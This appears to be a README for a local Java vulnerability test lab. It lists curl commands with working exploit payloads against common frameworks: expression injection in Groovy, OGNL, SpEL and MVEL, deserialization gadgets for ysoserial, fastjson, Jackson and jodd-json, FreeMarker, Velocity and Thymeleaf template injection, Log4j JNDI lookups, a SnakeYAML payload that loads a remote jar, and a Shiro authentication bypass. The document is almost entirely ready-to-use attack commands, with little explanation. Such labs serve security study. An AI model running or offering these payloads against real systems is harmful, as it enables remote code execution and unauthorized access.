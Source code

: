### 脚本执行

#### groovy

```
curl 127.0.0.1:8080/groovy/parse -d 'expression="open /System/Applications/Calculator.app".execute()'
```

#### ognl

```
curl 127.0.0.1:8080/ognl/parse -d 'expression=#a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{"open", "/System/Applications/Calculator.app/"})).start()'
```

#### spel

```
curl 127.0.0.1:8080/spel/parse -d 'expression=T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")'
```

#### mvel

```
curl 127.0.0.1:8080/mvel/parse -d 'expression=Runtime.getRuntime().exec("open /System/Applications/Calculator.app")'
```

### 反序列化

#### readObject()

```
ysoserial CommonsCollections6 "open /System/Applications/Calculator.app" > test
curl 127.0.0.1:8080/object/parse --data-binary @test -H 'Content-Type: text/plain'
rm -f test
```

#### fastjson

```   
curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"org.apache.commons.proxy.provider.remoting.RmiProvider","host":"127.0.0.1",port:"1099","name":"Exploit"}'

curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true}'
```

#### jackson

```
curl 127.0.0.1:8080/jackson/parse -d 'json=["com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://127.0.0.1:1389/Exploit"}]'
```

#### xstream

```
curl 127.0.0.1:8080/xstream/parse -H 'Content-Type: text/xml' -d @test.xml
```

#### jodd-json

```
curl 127.0.0.1:8080/jodd/parse -d 'type=com.mchange.v2.c3p0.JndiRefForwardingDataSource&json={"jndiName":"ldap://127.0.0.1:1389/Exploit","loginTimeout":0}'
```

### 模板渲染

#### velocity

```
curl 127.0.0.1:8080/velocity/eval -d 'username=#set($exp%3d"");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")'
```

#### freemarker

JythonRuntime需要本地有class: https://tttang.com/archive/1412/

```
curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("open /System/Applications/Calculator.app")</@value>'

curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.Execute"?new()>$${value("open /System/Applications/Calculator.app")}'

curl 127.0.0.1:8080/freemarker/unsafe -d 'template=${"freemarker.template.utility.Execute"?new()("open /System/Applications/Calculator.app")}'
```

eval模式

```
curl 127.0.0.1:8080/freemarker/eval -d 'username="freemarker.template.utility.Execute"?new()("open /System/Applications/Calculator.app")'
```

#### thymeleaf模板注入

https://github.com/veracode-research/spring-view-manipulation

```
curl 'http://127.0.0.1:8080/thymeleaf/path?lang=__%24%7BT(java.lang.Runtime).getRuntime().exec(%27%6F%70%65%6E%20%2F%53%79%73%74%65%6D%2F%41%70%70%6C%69%63%61%74%69%6F%6E%73%2F%43%61%6C%63%75%6C%61%74%6F%72%2E%61%70%70%27)%7D__::.xx'
```

### 其他漏洞

#### log4j漏洞

```
curl 127.0.0.1:8080/log4j -d 'log=${jndi:ldap://127.0.0.1:1389/a}'
```

#### rmi client

```
curl 127.0.0.1:8080/registry/lookup -d 'ip=127.0.0.1&port=1099&name=MyService'
```

#### jndi lookup

```
curl 127.0.0.1:8080/jndi/lookup -d 'url=ldap://127.0.0.1:1389/a'
```

#### snake yaml

```
curl 127.0.0.1:8080/snakeyaml/parse -d 'yaml=!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/payload.jar"]]]]'
```

### 其他接口

1. 测试/actuator接口
2. 测试 alwaysUseFullPath 认证绕过漏洞: http://rui0.cn/archives/1643
   * 直接访问 /shiro/auth 会提示认证失败
   * 使用 /shiro/no-auth/%2e%2e/auth 可以绕过认证
